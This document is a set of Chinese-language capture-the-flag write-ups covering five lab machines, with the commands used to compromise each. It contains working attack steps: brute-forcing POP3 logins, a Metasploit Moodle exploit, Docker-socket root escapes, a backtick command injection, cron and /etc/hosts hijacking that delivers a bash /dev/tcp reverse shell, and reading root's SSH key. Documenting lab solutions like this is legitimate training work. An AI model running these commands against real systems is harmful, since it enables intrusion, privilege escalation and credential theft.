

## Corp Website

3000端口是一个网站，找不到数据传输的接口

nextjs是16.06版本，收到`cve-2025-55182`漏洞的影响

找一个exp，反弹shell后，`sudo -l`发现能使用python提权

```
sudo /usr/bin/python3 -c "import os; os.system('sh')"
```


## Couch

常规扫描只有一个端口，需要更加强大的扫描

```
nmap -Pn -p- --min-rate 5000 -v 10.48.139.76

// -p- 强制扫描所有端口
//--min-rate 限制每秒发包数量
```

发现了Couchdb，其标注api路径为`_all_dbs`，回显：

```
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]
```

- 针对这种NoSQL数据库时，思路：

`5984` (HTTP 默认端口)、`5986` (集群内部通信端口，老版本中危险)、`6984` (HTTPS 端口)

尝试访问 `/_all_dbs`、`/_config`。如果能直接读取或修改，说明处于未授权状态

```
curl -s http://10.48.139.76:5984/secret/_all_docs?include_docs=true
```

获取到ssh用户名密码后链接，查看`.bash_history`文件

```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

意思是本地的2375端口上，运行一个无需认证的Docker API服务，而且是特权容器，并且把`/`根目录映射到`/mnt`目录下

使用同样的命令：

```
docker -H tcp://127.0.0.1:2375 run -it --rm -v /:/mnt alpine chroot /mnt sh
```

获取到shell，而且是root


## GoldenEye

nmap扫描，打开网页，源代码中有密码

```
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```

是html实体编码，解码后为 `InvincibleHack3r`

25端口开启了smtp服务，尝试登录

```
swaks --to test@localhost --from boris@localhost --server 10.48.141.160 --auth LOGIN --auth-user boris --auth-password InvincibleHack3r
```

登不上去，应该是要去55007端口尝试pop3（55006是加密pop3s服务）

使用hydra针对这两个用户进行爆破

```
hydra -L user.txt -P /usr/share/wordlists/fasttrack.txt -s 55007 10.48.141.160 pop3 -t 64 -f
```

`natalya/bird`和`boris/secret1!`

登录系统

```
nc -nv 10.48.141.160 55007

user natalya
pass bird
list # 查看信件数量
retr 1 # 查看每封信
```

`username: xenia / password: RCP90rulez!`

访问新域名`http://severnaya-station.com/gnocertdir`

隐藏文件中有admin的账密，登录新的账号

使用cmseek查看使用的框架为moodle

```
cmseek -u http://severnaya-station.com/gnocertdir
```

这次尝试使用msfconsole：

```
# 进入msf框架界面
msfconsole

# 查找可用的exp，使用1的exp
search moodle
use 1

# 设置账密
set username admin 
set password xWinter1995x! 

# 设置域名和目录
set rhost severnaya-station.com
set targeturi /gnocertdir

# 设置反弹的本地IP
set lhost 192.168.76.3

# 执行命令
exploit
```

获取tty半交互shell

```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

之后找一个提权的c，编译运行后提权，只有一个非常老的cc编译器

```
cc -o exp 37292.c
```


## Overpass

常规端口和目录扫描后进入/admin登录页面

页面js中定义了登录逻辑

```
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

只需在console输入`Cookies.set("SessionToken", "anything")`即可进入后台

出现ssh的rsa密钥，但是被AES加密了，需要爆破处理后才能用

```
ssh2john id_rsa > hash.txt
```

保存为哈希规范后撞库

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

获取到密码为james13

ssh连接时要注意赋权限600给id_rsa，太高了无法通过

```
ssh -i id_rsa james@10.49.146.199
```

连接后，提示查看定时任务

```
cat /etc/crontab
```

其中，定时任务有sh，并且/etc/hosts为rw

```
root curl overpass.thm/downloads/src/buildscript.sh | bash

-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

可以通过本地DNS欺骗和定时任务劫持来完成提权

在靶机：

```
echo "192.168.176.3 overpass.thm" > /etc/hosts
```

在攻击机构造同样结构的目录`downloads/src`，其中的buildscript.sh写反弹shell

```
bash -i >& /dev/tcp/192.168.176.3/4444 0>&1
```

再开启python http.server的80端口和nc就能弹shell


## UltraTech

针对端口进行详细扫描

```
nmap -sS -sV -sC -p 8081,31331 10.49.161.141
```

继续深入，8081端口有一个/ping的接口

```
curl  http://10.49.161.141:8081/ping
```

有报错replace



推测代码中有replace函数，能够执行拼接的ping命令

经过测试，能够使用`绕过，执行RCE

```
curl 'http://10.48.159.70:8081/ping?ip=`id`'
ping: groups=1002(www): Name or service not known
```

crackhash后结果为`n100906`

ssh登录，是一个docker组用户

```
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

有一个名为bash的容器

使用命令

```
docker run -v /:/mnt --rm bash sh -c "cat /mnt/root/.ssh/id_rsa"
```

意思是：run运行容器，把根目录挂载到/mnt中；--rm就是容器退出后自动销毁，不留痕迹；之后在容器内部调用命令


